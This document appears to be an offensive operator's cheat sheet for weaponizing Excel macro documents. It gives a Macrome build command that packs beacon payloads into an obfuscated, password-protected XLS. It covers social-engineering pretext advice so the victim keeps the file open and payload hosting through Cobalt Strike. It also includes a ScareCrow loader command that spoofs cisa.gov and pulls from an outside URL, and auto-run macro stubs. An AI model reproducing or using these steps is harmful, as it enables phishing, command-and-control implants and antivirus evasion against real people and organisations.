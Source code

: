 # XLS MACRO Macrome https://github.com/michaelweber/Macrome
git clone https://github.com/michaelweber/Macrome.git
	## Create an Excel spreadsheet (must be XLS Excel 2003 format, not XLSX)
	## !! Add convincing pretext to keep target engaged; the beacon will die if the document is closed!
	## Build Macrome in Visual Studio
	## Build payload
dotnet Macrome.dll b --decoy-document C:\payloads\book1.xls --payload C:\payloads\x86-https.bin --payload64-bit C:\payloads\x64-https.bin --method AntiAnalysisCharSubroutine --payload-method base64 --password VelvetSweatshop --output-file-name macrome.xls
	## Output will go to the Macrome\bin\Debug\net5.0 folder



-----  Delivering payloads  -----
# Create web link to payload in Cobalt Strike webserver
	## Click on the "Host a file" icon (looks like a chain link, 4th icon from the end) or go to Attacks > Web Drive-by > Host File
	## Select file, rename Local URI, change Local Host to a domain name if possible, change Local Port to 443 and check Enable SSL if SSL is available. Launch.
	## !! Always use domain names, never use IPs when serving resources through Cobalt Strike

##########################
# Notes
##########################

./ScareCrow -I /mnt/share/Working/dylan/scarecrow-dns.bin -domain cisa.gov -sandbox -etw -Loader wscript -delivery macro -url https://straxotechnology.com -O 16-https-scarecrow-wscript.js

    change line with Environ to Environ("TEMP") & "\"

    or some other path that exists

    then add at bottom

    Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
